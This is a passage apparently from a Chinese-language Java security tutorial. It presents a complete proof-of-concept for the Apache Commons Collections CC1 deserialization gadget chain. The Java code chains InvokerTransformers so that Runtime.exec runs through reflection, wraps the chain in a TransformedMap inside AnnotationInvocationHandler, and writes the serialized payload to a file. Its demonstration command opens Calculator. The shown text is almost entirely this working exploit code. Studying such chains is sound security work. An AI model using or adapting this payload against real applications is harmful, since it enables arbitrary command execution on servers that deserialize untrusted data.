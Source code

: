 ## 利用代码及漏洞验证

根据以上所有的结合起来，构造如下的一个最终 POC。

```java
package com.javasec.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1TransformedMap {
    public static void main(String[] args) throws Exception {

        Transformer[] ts = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"open -a Calculator"})
        };

        Transformer tc = new ChainedTransformer(ts);

        Map m = new HashMap();
        // Key的值需为Target.class中的方法名称，Value的值无所谓
        m.put("value", "value");

        Map tm = TransformedMap.decorate(m, null, tc);

        //反射调用AnnotationInvocationHandler类的构造方法
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cst = c.getDeclaredConstructor(Class.class, Map.class);

        cst.setAccessible(true);
        //获取AnnotationInvocationHandler类实例，同时传入注解和tm
        Object instance = cst.newInstance(Target.class, tm);

				// 序列化至本地一个文件中
        FileOutputStream f = new FileOutputStream("src/main/resources/cc1.ser");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(instance);
    }
}
```

